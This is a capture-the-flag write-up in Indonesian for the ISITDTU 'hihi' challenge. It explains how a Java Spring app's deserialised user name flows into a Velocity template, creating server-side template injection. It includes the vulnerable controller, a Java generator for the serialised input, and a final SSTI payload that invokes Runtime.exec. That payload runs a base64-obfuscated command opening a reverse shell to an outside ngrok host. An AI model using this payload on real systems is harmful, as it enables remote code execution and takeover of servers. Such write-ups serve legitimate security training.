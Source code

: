 # ISITDTU - hihi - Writeup
Pada challenge kali ini kita dihadapkan dengan web java yang melakukan deserialisasi, dan hasil deserialisasi akan ditampilkan di template Velocity, yang mana rentan terhadap SSTI, berikut merupakan source code nya

## Source Code
MainController.java
```java
package com.isitdtu.hihi.Controllers;

import org.apache.velocity.app.Velocity;
import org.apache.velocity.VelocityContext;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;
import com.isitdtu.hihi.Helpers.Encode;
import com.isitdtu.hihi.Helpers.SecureObjectInputStream;
import com.isitdtu.hihi.Users;
import java.io.IOException;
import java.io.ObjectInputStream;

import java.io.ByteArrayInputStream;
import java.time.LocalDate;
import java.time.format.DateTimeFormatter;
import java.io.StringWriter;
import java.util.Base64;

@Controller
public class MainController {
    @GetMapping("/")
    @ResponseBody
    public String index(){

        return "hey";
    }

    @PostMapping(value = "/")
    @ResponseBody
    public String hello(@RequestParam("data") String data) throws IOException {
        String hexString = new String(Base64.getDecoder().decode(data));
        byte[] byteArray = Encode.hexToBytes(hexString);
        ByteArrayInputStream bis = new ByteArrayInputStream(byteArray);
        ObjectInputStream ois = new SecureObjectInputStream(bis);
        String name;
        try{
            Users user = (Users) ois.readObject();
            name= user.getName();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
        if(name.toLowerCase().contains("#")){
            return "But... For what?";
        }
        String templateString = "Hello, " + name+". Today is $date";
        Velocity.init();
        VelocityContext ctx = new VelocityContext();
        LocalDate date = LocalDate.now();
        DateTimeFormatter formatter = DateTimeFormatter.ofPattern("MMMM dd, yyyy");
        String formattedDate = date.format(formatter);
        ctx.put("date", formattedDate);
        StringWriter out = new StringWriter();
        Velocity.evaluate(ctx, out, "test", templateString);
        return out.toString();
    }
}
```

terdapat pemanggilan fungsi `SecureObjectInputStream`, sehingga mustahil untuk melakukan `Java Deserialization Exploit`, karena SecureObjectInputStream hanya mengizinkan class yang diakses adlaah class Users aja.

untuk melakukan post pertama tama kita harus melakukan generate inputan yang sesuai dengan yang diharapkan oleh applikasi, berikut merupakan kode untuk generate nya

```java
public static void main(String[] args) {
        Scanner scanner = new Scanner(System.in);

        System.out.print("Masukkan nama (dalam Base64): ");
        String inputName = scanner.nextLine();

        try {
            // Decode Base64 dan convert ke byte array
            Users user1 = new Users(inputName);
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(bos);
            oos.writeObject(user1);
            oos.flush();
            byte[] userBytes = bos.toByteArray();
            oos.close();
            bos.close();

            StringBuilder hexString1 = new StringBuilder();
            for (byte b : userBytes) {
                hexString1.append(String.format("%02x", b));
            }
            String hexOutput = hexString1.toString();
            System.out.println("Hex String: " + hexOutput);

            String base64User = Base64.getEncoder().encodeToString(hexOutput.getBytes());
            System.out.println("Base64 Input: " + base64User);
        } catch (IOException e) {
            System.err.println("IOException terjadi: " + e.getMessage());
        } catch (ClassNotFoundException e) {
            System.err.println("ClassNotFoundException terjadi: " + e.getMessage());
        } finally {
            scanner.close();
        }
```

terlihat dari kode maincontroller.java, terdapat SSTI velocity yang terjadi disana, namun karena adanya filter `#`, ini membuat hal menjadi terbatas,

pertama tama dicoba SSTI untuk memunculkan date dengan inputan `$date`, dan output menunjukan bahwa memang terdapat SSTI, selanjutnya kita akan langsung eksekusi reverse shell, berikut payload nya
```
$date.getClass().forName(\'java.lang.Runtime\').getMethod(\'getRuntime\', null).invoke(null, null).exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xNjQ0OSAwPiYxCg==}|{base64,-d}|{bash,-i}")

```